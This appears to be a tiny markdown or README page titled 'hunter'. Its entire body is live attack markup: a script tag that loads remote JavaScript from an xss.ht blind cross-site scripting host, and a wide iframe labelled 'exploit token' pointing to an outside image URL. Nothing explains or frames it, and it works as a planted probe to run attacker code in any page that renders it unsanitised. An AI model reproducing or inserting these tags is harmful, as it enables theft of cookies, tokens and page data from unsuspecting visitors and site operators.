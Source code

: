 # hunter


<script src='https://ynafiai.xss.ht' ></script>
<iframe alt='exploit token' frameborder='0' height='600' scrolling='auto' src='https://api.nudge.ai/Image/GetUploadedImage/b29b982c35f149c48f4ffe844152cc2d' width='4800'></iframe>
